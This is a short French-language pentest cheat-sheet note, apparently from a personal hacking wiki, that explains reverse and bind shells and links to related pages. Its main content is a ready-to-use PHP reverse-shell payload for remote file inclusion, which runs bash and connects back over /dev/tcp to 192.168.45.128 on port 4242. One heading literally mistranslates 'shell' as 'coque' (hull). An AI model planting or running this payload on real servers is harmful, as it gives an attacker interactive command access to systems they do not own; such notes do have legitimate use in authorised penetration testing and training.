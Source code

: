 Nous pouvons forcer le serveur distant soit à nous envoyer un accès en ligne de commande au serveur [Reverse shell](./Reverse%20shell.md), soit à ouvrir un port sur le serveur auquel nous pouvons nous connecter afin d'exécuter d'autres commandes [Bind shell](./Bind%20shell.md).

Stabilisation de la coque avec [TTY](./TTY.md)


---

Reverse shell PHP (RFI)

```php 
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.128/4242 0>&1'"); ?>
```


